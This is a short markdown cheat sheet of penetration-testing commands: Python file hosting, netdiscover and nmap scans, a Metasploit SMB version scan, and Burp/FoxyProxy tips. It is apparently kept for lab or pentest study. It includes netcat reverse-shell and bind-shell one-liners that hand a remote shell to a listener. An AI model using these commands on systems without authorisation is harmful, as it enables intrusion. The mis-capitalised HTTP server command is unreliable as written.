### Host files from current dir 
` python -m SimpleHttpServer 8080 `
 
### enable postgress for faster msf startup 
systemctl enable postgresql

### python tools for network 
https://github.com/SecureAuthCorp/impacket

### Given a string, cut at delimiter ( space) and take 4th field as a result
cut -d " " -f 4  

## Recon

### Website tech identification
whatweb - Kali cli tool for identifying site ( better than most)
Wappalyzer - extension on browser

### netdiscover - arp in the network

netdiscover -r 192.168.88.0/24

### nmap
-sS - "Stealh scan" (not really , just syn, synack and RST - no sessions established) 
nmap -sS 192.168.88.128
nmap -T4 -p- -A
-p- - all ports  ( default is top 1000 ports) ;   -A - scan everything , version, OS, fingerprint

### SMB (and metasploit workflow)

msfconsole
search smb 
use auxiliary/scanner/smb/smb_version 
set RHOSTS 192.168.88.128
run

### nice to knows 
dpkg -i downloaded_package.deb  # install a package

### reverse shell ( just like pentestmonkey )
nc 192.168.1.1 4444 -e /bin/sh        --->   nc -lvp 4444

### bind shell 
nc 192.168.1.1 4444     ---->  nc -lvp 4444 -e /bin/sh

### Foxyproxy productivity 
use foxyproxy addon and add burpsuite settings to it. easy switching 
